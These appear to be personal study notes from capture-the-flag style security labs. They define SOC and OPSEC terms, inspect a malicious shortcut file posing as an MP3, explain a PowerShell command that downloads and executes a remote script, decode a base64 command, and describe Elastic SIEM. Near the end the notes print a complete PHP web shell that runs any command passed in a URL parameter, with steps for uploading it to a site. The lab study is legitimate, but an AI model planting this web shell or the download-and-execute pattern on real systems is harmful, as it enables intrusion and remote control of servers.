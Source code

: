 ##### **Security Operations Center (SOC)** 
It is a team of IT security professionals tasked with monitoring, preventing , detecting , investigating, and responding to threats within a company’s network and systems.

##### Operational Security (OPSEC) 
It is a set of principals and tactics used to attempt to protect the security of an operator or operation. An example of this may be using code names instead of your real names, or using a proxy to conceal your IP address.
##### File Command
```shell-session
user@tryhackme:~$ file song.mp3
download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```


```shell-session
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Here, MS Windows shortcut = .lnk file::

##### Exiftool
``` shell
user@tryhackme:~$ exiftool somg.mp3
``` 
![](../Attachements/Pasted%20image 20241208123022.png)
![](../Attachements/Pasted%20image 20241208130704.png)
What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.

##### ELASTIC SIEM
Elastic SIEM is a security information and event management platform that helps organizations detect, investigate, and respond to security threats. It aggregates and analyzes data from various sources to provide real-time insights and alerts on potential security incidents.
Elastic Security SIEM (Security Information and Event Management) is a product built on top of the Elastic Stack, which provides security insights and real-time threat detection. 

###### base64 commands

![](../Attachements/Pasted%20image 20241208144057.png)
``` shell
┌──(root㉿kali)-[~/Desktop/THM]
└─# echo SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA== | base64 --decode
Install-WindowsUpdate -AcceptAll -AutoReboot 
```   

###### PHP File Upload
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
If we add above command in a file and upload it to the website and later navigate to the uploaded directory, it gives command injection tab where we can input the commands like below:
![](../Attachements/Pasted%20image 20241225122355.png)

